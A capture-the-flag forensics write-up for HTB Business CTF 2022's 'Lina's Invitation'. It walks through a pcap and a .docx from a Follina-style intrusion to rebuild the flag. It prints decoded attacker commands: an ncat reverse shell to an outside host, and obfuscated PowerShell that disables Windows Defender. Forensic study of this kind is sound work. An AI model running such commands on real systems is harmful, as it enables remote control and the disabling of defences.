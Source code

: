 ```yaml
---
layout: post
title:  "HTB Business CTF 2022 - Lina's Invitation writeup"
date:   2022-07-17 22:00:00 +0300
categories: HTB_Business_CTF_2022 CTF forensics
summary: Writeup for the 'Lina's Invitation' challenge from HTB's Business CTF from 2022. 
---
```


[Lina's Invitation](https://ctftime.org/task/22937) was a forensics challenge in HTB's Business CTF (2022).  
For this challenge, we received a zip file containing a .docx and a pcap file.  

![ZIP contents]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/lina_invitation/zip_contents.png){: .center-image}

Let's start with the pcap file.  
After opening it with Wireshark, we can see some http traffic going from the analyzed computer to a remote server.  

![Opening the pcap in wireshark]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/lina_invitation/wireshark1.png){: .center-image}

We start inspecting that traffic and we see that the server response contains a large URL-ecnoded string.  
This probably contains some useful hints so we continue analyzing it.

![HTTP response]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/lina_invitation/wireshark_p1.png){: .center-image}

We decode the file using CyberChef's URL decode and we see a HTTP file containing multiple base64-encoded strings.

![HTTP response decoded]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/lina_invitation/content_1.png){: .center-image}

The large base64-encoded strings are part of the [Invoke-MetasploitPayload](https://github.com/EmpireProject/Empire/blob/master/data/module_source/code_execution/Invoke-MetasploitPayload.ps1
) script from Empire.  

The last part was a powershell line that contained an obfuscated command by encoding it with base64.
If we decode that part, we get this (newline added by me for readability).

{% highlight powershell %}
c:\\windows\\system32\\cmd.exe /c ncat www.windowsliveupdater.com 5476 \
                                    -e cmd.exe; $pt1=\"HTB{Zer0_DayZ_4Re_C0Ol_BuT_\"
{% endhighlight %}

We have the first part of the flag, **HTB{Zer0\_DayZ\_4Re\_C0Ol\_BuT\_**, with the "$pt1=" part hinting that we should see more parts.  
We also see two more interesting things here:
- the windowsliveupdater.com URL
- port 5476

First, let's use the URL. We can use unzip to extract the content of the docx file and then use grep to see if there's any mention of that string in there.  
We find 3 instances of it and one of them has a "pt2" parameter.  

![The second part of the flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/lina_invitation/flag_part2.png){: .center-image}

{% highlight powershell %}
http://windowsliveupdater.com?Pt2=RjBsbGluYV9oNHNf
{% endhighlight %}

If we decode the value of the Pt2 parameter, we get F0llina_h4s_.  
By putting the two pieces together, we have **HTB{Zer0\_DayZ\_4Re\_C0Ol\_BuT\_F0llina\_h4s\_**  
We need more parts to complete the flag

Now we go back to the other thing that we got from that powershell command: port 5476.  
In Wireshark, we can apply a display filter that will show packets that go to that port (we use the filter "tcp.port == 5476")
![Filtering for port 5476]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/lina_invitation/port5476.png){: .center-image}
If we look at the traffic on that port, we can see the attacker interacting with the compromised system by using a reverse shell.
![Attacker's shell]({{site.baseurl}}/assets/img/HTB_Business_CTF_2022/lina_invitation/wireshark_shell.png){: .center-image}

Two commands stand out from there: the powershell ones that have base64-encoded arguments.  
The first one decodes to 
{% highlight powershell %}
. ( $enV:comSpec[4,24,25]-JOin'') ( ((("{2}{0}{7}{1}{11}{5}{6}{9}{10}{4}{8}{3}"-f \ 'ef',' ','Set-MpPr','ue','t','altime','Moni','erence','r','tor','ing $','-DisableRe')) -repLacE  'K35',[ChAR]36))
{% endhighlight %}

Which after formatting becomes "Set-MpPreference -DisableRealtimeMonitoring $true", which is used to disable Windows Defender.

The argument used for the second command decodes to:
{% highlight powershell %}
Iex ( ((("{2}{7}{6}{5}{9}{0}{8}{3}{10}{4}{1}" -f 'h','.exe','<#{0','!}','eas','A','t3=b33n_p','}p','3d','tc','#> .{1}winp'))-f  [Char]36,[Char]92))
{% endhighlight %}

Which can becomes "<#{0}pt3=b33n_pAtch3d!}.{1}winpeas.exe" after formatting.  
And here we have the last part of the flag  

Now if we put all the parts together, we get the full flag: **HTB{Zer0\_DayZ\_4Re\_C0Ol\_BuT\_F0llina\_h4s\_b33n\_pAtch3d!}**  